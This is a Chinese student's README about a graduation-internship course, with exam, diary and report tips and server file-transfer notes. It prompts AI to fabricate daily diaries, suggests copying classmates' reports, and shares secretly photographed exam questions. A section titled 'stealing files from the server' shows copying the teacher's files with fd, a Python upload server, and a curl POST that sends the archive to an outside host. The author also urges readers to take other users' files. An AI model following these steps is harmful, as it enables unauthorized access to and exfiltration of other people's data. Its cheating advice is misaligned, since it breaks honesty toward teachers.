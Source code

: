 # 毕业实习

大四的最后一门课，故意放在考研后，避免挤占考研复习时间。这个时间点，大家未来的研究方向/就业方向已经决定了吧，不是每个人都去做芯片的，我认为，如果跟自己的方向不重合，就不用听。

（笑死，上课去的人还不到一半，没有签到，随便翘。大家都有自己的事，谁来听这个毕业实习。）

不像其他专业的毕业实习，信息工程专业没有任何企业参观，全部在教室学东西，只是请了个企业讲师来讲课。[上课安排](./上课安排.xlsx)

## 考试

考试决定平时成绩，占总成绩 30%

最后一天有一个考试，一小时。开卷，允许上网查资料，除了不能用手机拍照其他的都可以干，所以完全没有必要专门去学习。请谨慎使用 AI，因为可能会给出错误的答案。

交卷时我把考题悄悄拍下来了，给后人留下[一些参考](./考试)。都非常简单的题目。

## 资料

- [飞书链接](https://k0wclrk5a3j.feishu.cn/drive/folder/CCxzfWBR8lKaARdFi0jcqXIunlj)

## 日记与报告

剩下的是日记与报告，占总成绩的 70%。

### 日记

让我们用 AI：

```
我目前正在参加一项实践课程，需要每天写一篇实习日记，包含自己学到的东西与新得体会。稍后我会将学习主题和资料发送给你，每次代表这一天学习的主题，请你帮我每天写一篇日记。至于学到了什么具体的内容，你可以自己补充。日记风格是个人感悟式的抒发，长度约为 300-400 字，希望包含一些遇到的困难与解决方法。
```

### 报告

报告允许全部使用电子版编写，打印后贴到报告本里。

内容就等等其他人，~~或者因为大家寒假都急着回家，此时自告奋勇留在学校收报告，就可以大抄特抄了~~。至于图片，找熟人要一下，或者网上找找都行。

## 传文件到服务器

现在是 AI 时代，想必大家都不愿意在服务器里手打，而是 AI 辅助完成后再传到服务器上调试。（或者传一些 Linux 工具）

<details><summary>展开</summary>

我们使用 VNC 面板连接到企业提供的服务器。VNC 端口 <124.152.95.232:5999>，这玩意甚至 ping 不通。服务器本身不支持通过 VNC 文件传输：_VNC Server does not support file transfer_。

服务器上每个人都是一个用户，并没有做虚拟机级别的隔离。虽然我不能访问其他同学的 HOME 目录，但是老师的 home 可以访问。（不知道为啥留个洞）

查看 `/etc/ssh/ssh_config`，看到 Port 为 2222，尝试连接无效，基本能推断出给的 IP 只是一个反代。

在服务器上 `ping baidu.com` 无效，没做 dhcp。但是尝试 ping 一个 IP，正常，说明有网络连接。那就好办了，因为我们每个宿舍都有公网 IP。

在本机开一个 http server（`python -m http.server 55555`），去路由器设置里把本机这个端口暴露到公网。然后在服务器上 `wget http://xxx.xxx.xx.xxx:55555/myfile.txt`，就可以从本机传文件到服务器上了。

然后过了一阵子，课程结束，这时候我发现没法传文件上去了，对外网络已经全部关掉了。也不知道是发现了这个 bug 还是咋地。于是没辙，只好尝试一下 VNC 本身的剪贴板交互。这样只能传输字符，对传二进制需要额外处理。

1. Ctrl + Shift + C 复制，Ctrl + Shift + V 粘贴。不过遇到软件本身的 shell 时可能会有光标错位的情况，这时候请使用 gvim 编辑器粘贴命令到脚本中，再执行脚本。
2. 在 python 中可以使用 `pyautogui` 模块来模拟键盘输入。具体代码在 [send_text.py](./send_text.py) 中。将要发送的内容写到 `text_to_send` 文件中，VNC 里打开 vim 准备输入，然后运行脚本，切换到 VNC 窗口。这样可能会有格式问题，因为 VNC 上的 vim 被配置了自动缩进。我们需要在 `~/.vimrc` 的末尾添加：
   ```
   set noautoindent
   set nosmartindent
   set nocindent
   ```
   这样再运行即可。

</details>

## 从服务器偷文件

<details><summary>展开</summary>

我传了一个 [fd](https://github.com/sharkdp/fd) 用来在教师盘里找文件。我更习惯 fd，感觉比 find 好用。然后用类似 `fd -H -e jpg -e doc -e docx -e ppt -e pptx -x cp {} ~/my` 把貌似有用的资料全部偷下来。

那么如何传到自己的电脑呢？首先打个 tar.gz，然后有两个方法。

1. 由于自己电脑有公网 IP，所以直接用基于 ssh 的 scp/rsync 即可。需要在 _windows 设置 - 系统 - 可选功能_ 里安装 OpenSSH 服务器，然后把 22 端口开放到公网。
2. 改一改 http server 的代码，让它可以接受数据输入。用 GPT 快速糊一个：

   ```python
   import os
   from http.server import HTTPServer, SimpleHTTPRequestHandler


   class UploadHandler(SimpleHTTPRequestHandler):
       def do_POST(self):
           # 获取上传文件的长度
           content_length = int(self.headers["Content-Length"])

           # 读取上传的文件内容
           file_content = self.rfile.read(content_length)

           # 获取上传的文件名
           filename = os.path.basename(self.path)

           # 将文件写入到当前目录
           with open(filename, "wb") as f:
               f.write(file_content)

           # 返回成功响应
           self.send_response(200)
           self.end_headers()
           self.wfile.write(b"File uploaded successfully")


   if __name__ == "__main__":
       # 设置服务器地址和端口
       server_address = ("", 55555)
       httpd = HTTPServer(server_address, UploadHandler)

       print("Starting server on port 55555...")
       httpd.serve_forever()
   ```

   运行，然后就可以通过 POST 命令上传文件了。这里使用 curl：`curl --noproxy '*' -x POST --data-binary @my.tar.gz http://xxx.xxx.xx.xx:55555/a.tar.gz`。noproxy 是必要的，服务器上有奇怪的代理设置。

   或者不用 gpt 脚本，直接用现成库 [uploadserver](https://github.com/Densaugeo/uploadserver) 也行。

仿照这个例子，再把有访问权限的其他人的东西给偷过来。

结果最后发现好像没有偷到什么有价值的东西。

</details>
